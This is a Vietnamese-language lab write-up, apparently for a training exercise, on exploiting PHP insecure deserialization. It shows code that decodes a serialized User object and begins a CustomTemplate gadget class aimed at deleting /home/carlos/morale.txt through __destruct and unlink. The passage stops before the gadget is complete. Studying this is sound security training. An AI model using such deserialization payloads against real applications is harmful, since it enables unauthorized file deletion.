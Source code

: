 - Vì vậy chúng ta có thể lợi dụng hàm này và hàm unlink để xóa file morale.txt từ carlos vì khi mà 1 đối tượng bị hủy thì sẽ gọi đến destruct

- Triển khai:

```
<?php

class User {
   public  $username; 
   public  $access_token;
   function __construct($username, $access_token){
      $this->username = $username;
      $this->access_token = $access_token;
   }

}

// $poc = new User("viewner", " ob4nfdfe5htvwuykpn0zykbvjh645uxw", "/home/carlos/morale.txt");

// $poc = serialize($poc);

// echo base64_encode($poc);

$a= "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ3bjYxYjFhMmphZWpoODZsbGxqaDc3NWo2eG9qNGdveCI7fQ%3d%3d";

$a = base64_decode($a);

$b= unserialize($a);

print_r($b);

?>

---> 
(
    [username] => wiener
    [access_token] => wn61b1a2jaejh86llljh775j6xoj4gox
)
```


- POC:

```
<?php


class CustomTemplate {
    private $template_file_path;
    private $lock_file_path= "/home/carlos/morale.txt";

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

```